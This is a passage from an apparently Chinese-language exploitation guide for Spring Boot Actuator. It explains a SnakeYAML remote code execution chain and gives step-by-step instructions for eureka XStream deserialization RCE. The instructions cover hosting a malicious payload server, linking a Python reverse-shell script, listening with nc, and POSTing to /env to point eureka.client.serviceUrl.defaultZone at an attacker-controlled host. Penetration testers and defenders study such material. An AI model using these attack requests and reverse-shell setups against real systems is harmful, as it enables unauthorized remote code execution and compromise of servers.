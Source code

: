 #### 漏洞原理：

1. spring.cloud.bootstrap.location 属性被设置为外部恶意 yml 文件 URL 地址
2. refresh 触发目标机器请求远程 HTTP 服务器上的 yml 文件，获得其内容
3. SnakeYAML 由于存在反序列化漏洞，所以解析恶意 yml 内容时会完成指定的动作
4. 先是触发 java.net.URL 去拉取远程 HTTP 服务器上的恶意 jar 文件
5. 然后是寻找 jar 文件中实现 javax.script.ScriptEngineFactory 接口的类并实例化
6. 实例化类时执行恶意代码，造成 RCE 漏洞

#### 漏洞分析：

[Exploit Spring Boot Actuator 之 Spring Cloud Env 学习笔记](https://b1ngz.github.io/exploit-spring-boot-actuator-spring-cloud-env-note/)

#### 漏洞环境：

[repository/springcloud-snakeyaml-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springcloud-snakeyaml-rce)

正常访问：

```php
http://127.0.0.1:9092/env
```

### 0x03：eureka xstream deserialization RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用的 `eureka-client` &lt; 1.8.7（通常包含在 `spring-cloud-starter-netflix-eureka-client` 依赖中）
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

#### 利用方法：

##### 步骤一：架设响应恶意 XStream payload 的网站

提供一个依赖 Flask 并符合要求的 [python 脚本示例](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)，作用是利用目标 Linux 机器上自带的 python 来反弹shell。

使用 python 在自己控制的服务器上运行以上的脚本，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。

##### 步骤二：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```php
nc -lvp 443
```

##### 步骤三：设置 eureka.client.serviceUrl.defaultZone 属性

spring 1.x

```php
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```

